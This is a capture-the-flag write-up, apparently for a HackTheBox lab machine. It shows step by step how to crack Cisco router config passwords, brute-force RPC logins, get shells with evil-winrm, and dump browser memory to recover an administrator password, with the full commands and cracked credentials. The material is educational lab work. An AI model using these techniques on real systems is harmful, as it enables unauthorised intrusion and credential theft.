

# Target

## Getting User
First, let's start off by throwing [my pentest script](https://github.com/montyonsecurity/pentest) at it

	sudo pentest 10.10.10.149

In the output from nmap, it shows that IIS 10 is running. [As per Microsoft](https://www.microsoft.com/en-us/download/details.aspx?id=48264), the following are the possible Windows versions:
- Windows 10
- Windows 7 Service Pack 1
- Windows 8
- Windows 8.1
- Windows Server 2008 R2
- Windows Server 2012
- Windows Server 2012 R2

In the output from dirb, we see a login page (http://10.10.10.149/login.php) and a issues page (https://10.10.10.149/issues.php). Let's take a look at the login page.

	curl http://10.10.10.149/login.php | less

There looks to be a way to login as guest, as shown by the following string in the HTML: "?guest=true". Let's grab a session cookie.
		
	curl -I http://10.10.10.149/login.php?guest=true
	Set-Cookie: PHPSESSID=pp36invteXXXXXXaq9sqf18jh0v; path=/

Now let's read the issues page
	
	curl -b "PHPSESSID=pp36invteXXXXXXaq9sqf18jh0v" "http://10.10.10.149/issues.php" | less

Enumerated hazard and support admin (along with variants to be sure we enumerated all of them) as users. Current user list (written to users.txt)

- admin
- administrator
- hazard
- support admin
- support

As shown in the dirb output from the pentest script, there was a directory called attachments (http://10.10.10.149/attachments/) and in that directory is a config.txt (http://10.10.10.149/attachments/config.txt).

A quick google search of "service password-encryption" (found at the top of the configuration file) returns a lot of Cisco stuff and references Cisco IOS, which is used in routers and switches. Further down in the config file is "router bgp 100", which means this is definitely a router configuration file.

There are 3 passwords and 2 users in this file.

- Usernames
	- rout3r
	- admin
- Passwords
	- password 7 	0242114B0E143F015F5D1E161713
	- password 7 	02375012182C1A1D751618034F36415408
	- md5crypt	$1$pdQG$o8nrSzsGXeaduXrjlvKc91

Adding rout3r to the user list file (users.txt).

A google search for "cisco router config file passwords" yields [this website](https://www.cisco.com/en/US/products/sw/iosswrel/ps1831/products_configuration_guide_chapter09186a0080347975.html) which reveals that "password 7" means it was encrypted with a Cisco specific software. I used [this tool](https://github.com/theevilbit/ciscot7) to decrypt the "password 7" passwords".

	python ciscot7.py -f config.txt
		rout3r:$uperP@ssword
		admin:Q4)sJu\Y8qz*A3?d

For the MD5Crypt password, we can use hashcat to run a dictionary attack with rockyou.

	hashcat -a 0 -m 500 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 

stealth1agent is the string responsible for that hash.

Updating password list (pass.txt).
- $uperP@ssword
- Q4)sJu\Y8qz\*A3?d
- stealth1agent

The nmap output from the pentest script shows that Windows RPC is running on port TCP/135. Let's bruteforce it with the credentials we have. 

	for i in $(cat users.txt); do for j in $(cat pass.txt); do echo $i%$j && rpcclient -U "$i%$j" 10.10.10.149 && sleep 1; done; done;

hazard:stealth1agent is a valid credential pair. We can use RPC to enumerate users by their SID with the command *lookupsids* and *lookupnames* starting with hazard.

	lookupnames hazard

That tells us we are 1008, then we can take the numerical output of that command and alter the last 4 digits to find other users

	lookupsids ...1000
	...
	lookupsids ...1020

chase is at 1012 and jason is at 1013. Let's update users.txt.
- rout3r
- admin
- administrator
- hazard
- support admin
- support
- chase
- jason

We can bruteforce RPC again (typing "exit" after hazard authenticates and pressing Enter). We get a second pair of credentials. chase has the following password: Q4)sJu\Y8qz\*A3?d
	
Getting a shell.

	evil-winrm -i 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d'

user.txt is on chase's desktop

## Getting Root
Let's see what processes are running. If we run *ps*, we notice there are some browsers (firefox and explorer) running, which does not make much sense because this is a webserver.

We can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from SysInternals to see the memory of the processes. Download the zip file, unzip it, and upload procdump64.exe via the evil-winrm shell. 

Next, dump the memory of all of the firefox processes and examine the dump files.

	./procdump64.exe -ma [ID]

One of them contains the following string.
	
	localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

Adding the follwoing to the passwords list.
- 4dD!5}x/re8]FBuZ

Getting an admin shell.

	evil-winrm -i 10.10.10.149 -u administrator -p '4dD!5}x/re8]FBuZ'

root.txt is on admin's desktop
